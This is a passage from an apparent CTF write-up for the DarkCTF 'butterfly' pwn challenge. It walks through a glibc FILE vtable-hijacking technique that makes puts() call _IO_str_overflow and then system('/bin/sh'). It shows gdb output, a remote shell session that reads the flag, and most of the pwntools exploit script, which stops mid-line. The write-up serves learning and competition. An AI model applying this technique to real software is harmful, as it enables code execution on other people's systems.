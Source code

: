 ```python  
BYTE PTR [rdi], 0x8  
0x00007f48c690b398│+0x0030: 0x00007f48c65b1490  →  <_IO_default_xsputn+0> test
rdx, rdx  
0x00007f48c690b3a0│+0x0038: 0x00007f48c65b1640  →  <_IO_default_xsgetn+0> push
r15                     # This is called instead  
0x00007f48c690b3a8│+0x0040: 0x00007f48c65b34a0  →  <_IO_str_seekoff+0> push
r14  
0x00007f48c690b3b0│+0x0048: 0x00007f48c65b1a00  →  <_IO_default_seekpos+0>
push rbx  
```  
We need `_IO_str_overflow`, but we're getting `_IO_default_xsgetn` instead.
The reason for this could not have been more obvious if I had read the blog
clearly on the first pass:  
> Now, if I point the vtable to 0x10 bytes before it, fclose will call
> _IO_str_overflow **(again from gdb)**.  
The calculation of `fake_vtable_addr` in the blog is specific to `fwrite()`.
To get `puts()` to call the right function, we'll increment the offset to the
`fake_vtable` a little bit:  
```python  
io_str_overflow_ptr_addr = context.libc.symbols['_IO_file_jumps'] + 0xd8  
# Now this is correct!  
fake_vtable_addr = io_str_overflow_ptr_addr - 7*8  
```  
With that, we're done!

```python  
[+] Opening connection to pwn.darkarmy.xyz on port 32770: Done  
[*] 0x7f7c6ffcb000  
[*] Switching to interactive mode  
$ ls  
butterfly  
flag  
run.sh  
ynetd  
$ cat flag  
darkCTF{https://www.youtube.com/watch?v=L2C8rVO2lAg}  
$  
```  
Full code, in case you're lazy to read:  
## Code  
```python  
from pwnscripts import *  
context.binary = 'distribute/challenge_bin/butterfly'  
context.libc_database = 'libc-database'  
context.libc = 'distribute/libc/libc.so.6'  
LIBC_OFF=0x50  
vdso_magic = next(context.libc.search(b"__vdso_getcpu"))

p = remote('pwn.darkarmy.xyz', 32770)  
p.sendafter(': ', 'a'*LIBC_OFF)  
context.libc.address =
extract_first_bytes(p.recvline()[LIBC_OFF:],6)-vdso_magic  
log.info(hex(context.libc.address))  
rip = context.libc.symbols['system']  
rdi = context.libc.symbols['str_bin_sh']  
assert rdi % 2 == 0     # Necessary for exploit  
io_str_overflow_ptr_addr = context.libc.symbols['_IO_file_jumps'] + 0xd8  
fake_vtable_addr = io_str_overflow_ptr_addr - 7*8  
_lock = context.libc.address + 0x3ecf00 # Magic number: aligned-pointer to an
r/w buffer containing the value b'\0'*8  
fp = FileStructure(_lock)       # This is `bin.symbols['fake_file'] + 0x80` on
the blog  
fp._IO_buf_end = fp._IO_write_ptr = (rdi-100)//2  
```